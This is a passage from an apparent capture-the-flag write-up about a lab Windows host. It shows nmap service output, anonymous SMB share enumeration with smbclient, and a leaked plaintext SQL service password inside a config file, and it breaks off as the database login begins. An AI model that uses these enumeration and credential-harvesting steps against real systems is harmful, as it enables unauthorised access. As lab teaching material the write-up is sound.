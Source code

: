 ```sh {linenos=true}
| ms-sql-info: 
|   10.129.91.127:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  2 14:28:26 2022 -- 1 IP address (1 host up) scanned in 22.75 seconds
```

### smb
`smb` is open so: 
```sh
smbclient -N -L 10.129.91.127
```

*command tags:*
- `-N | --no-pass`: supresses the normal password prompt from the client to the user.
- `-L | --list`: list available services on the server

We can connect to the `backups` service without a password via: 

```sh
smbclient \\\\10.129.91.127\\backups
```

The only file housed here is `prod.dtsConfig`.

*file: prod.dtsConfig*
```txt {linenos=true}
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

Noteably, this file leaks us 

```txt
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
```

### sql
Attempting to connect to sql database using `mysql`:
